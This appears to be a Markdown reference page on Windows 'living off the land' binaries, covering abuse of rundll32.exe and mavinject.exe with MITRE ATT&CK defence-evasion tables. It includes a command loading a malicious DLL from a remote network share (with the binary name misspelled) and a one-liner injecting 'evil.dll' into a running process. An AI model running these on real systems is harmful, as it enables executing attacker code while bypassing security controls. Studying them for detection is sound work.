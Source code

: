 # Windows Living off the land - Binaries (LOLBIN)

----------

## Abusing rundll32.exe

### Mitre ATT&CK Summary
Tactic | Technique ID | Technique Name | Sub-technique Name | Defence Bypassed
:---:|:---:|:---:|:---:|:---:
Defence Evasion|T1218.011D|System Binary Proxy Execution|System Binary Proxy Execution: Rundll32|Anti-virus, Application control, Digital Certificate Validation

### Examples

For a good list of DLLs and API calls see:

[https://malapi.io/](https://malapi.io/)

For more examples see also:

[https://www.tenforums.com/tutorials/77458-rundll32-commands-list-windows-10-a.html](https://www.tenforums.com/tutorials/77458-rundll32-commands-list-windows-10-a.html)

[https://www.thewindowsclub.com/rundll32-shortcut-commands-windows](https://www.thewindowsclub.com/rundll32-shortcut-commands-windows)

[https://www.elevenforum.com/t/complete-list-of-rundll32-commands-in-windows-11.17062/](https://www.elevenforum.com/t/complete-list-of-rundll32-commands-in-windows-11.17062/)

    	rundll32.exe <DLL_PATH>,<DLL_ENRTY_POINT>
    	run32dll32.exe \\192.168.4.25\mdll\malware.dll,do_bad_stuff
	Examples:
	To clear browsing history:
		rundll32.exe InetCpl.cpl,ClearMyTracksByProcess 255
	To lock PC
		rundll32.exe user32.dll,LockWorkStation
	To start firewall GUI
		rundll32.exe shell32.dll,Control_RunDLL firewall.cpl


## Abusing mavinject.exe

### Mitre ATT&CK Summary
Tactic | Technique ID | Technique Name | Sub-technique Name | Defence Bypassed
:---:|:---:|:---:|:---:|:---:
Defence Evasion|T1218.013|System Binary Proxy Execution|System Binary Proxy Execution: Mavinject|Anti-virus, Application control, Digital Certificate Validation

### Examples

`mavinject.exe 3110 /INJECTRUNNING c:\folder\evil.dll`
